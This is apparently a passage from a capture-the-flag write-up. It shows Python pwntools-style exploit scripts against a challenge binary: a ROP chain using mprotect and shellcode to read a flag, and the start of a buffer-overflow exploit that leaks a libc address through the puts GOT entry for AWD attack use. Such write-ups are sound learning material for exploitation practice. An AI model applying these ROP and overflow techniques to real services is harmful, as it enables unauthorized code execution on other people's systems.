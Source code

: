 ```python

    rop_attack.update_padding(padding=0)

    # padding + 0x48
    # shellcode_addr = stack_migration_addr + 0x50

    rop_attack.orw_from_shellcode_cat_flag(
        target_addr=main_addr,
        mprotect_start_addr=stack_migration_addr,
        # return_func_addr=shellcode_addr,
        flag_prefix=b"XAUTCTF",
        is_send=True,
    )

if __name__ == '__main__':
    exp()

```



### awd利用

```bash
python exp.py auto
```

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

'''
GitHub:
    https://github.com/c0mentropy/ckyan.pwnScript
Help: 
    python3 exp.py --help
    python3 exp.py debug --help
    python3 exp.py remote --help
Local:
    python3 exp.py debug --file ./pwn
Remote:
    python3 exp.py remote --ip 127.0.0.1 --port 9999 [--file ./pwn] [--libc ./libc.so.6]
    python3 exp.py remote --url 127.0.0.1:9999 [--file ./pwn] [--libc ./libc.so.6]
'''

from ckyan.pwnScript import *

def exp():

    pandora_box.init_script()

    elf = pandora_box.elf
    libc = pandora_box.libc
    p = pandora_box.conn
    rop_attack = pandora_box.ropper_attack

    padding = 0x100 + 8
    main_addr = 0x40130C

    rop_attack.set_padding(padding=padding)

    ru(b'this task.\n')
    rop_attack.puts(target_addr=elf.got['puts'],
                    return_func_addr=main_addr,
                    is_send=True)
```